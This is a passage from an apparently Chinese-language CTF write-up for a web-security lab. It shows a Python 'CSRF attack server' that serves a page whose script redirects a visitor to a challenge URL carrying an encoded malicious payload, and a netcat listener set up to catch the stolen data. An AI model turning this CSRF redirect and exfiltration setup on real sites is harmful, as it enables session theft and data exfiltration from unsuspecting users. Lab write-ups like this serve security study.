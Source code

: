```py
            payload = f'http://challenge.localhost:80/ephemeral?msg={encoded_msg}'
            # 生成 HTML 页面并插入跳转脚本
            self.wfile.write(f"""
                <html>
                  <body>
                    <script>
                        // 通过 JavaScript 强制跳转到包含恶意 payload 的 URL
                        window.location.href = "{payload}";
                    </script>
                  </body>
                </html>
            """.encode())

# 启动 HTTP 服务器
server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
server.serve_forever()


```

也就是fetch套fetch。

除此之外，我们还需要在开一个端口来接收：

```
nc -lvp 9876
```

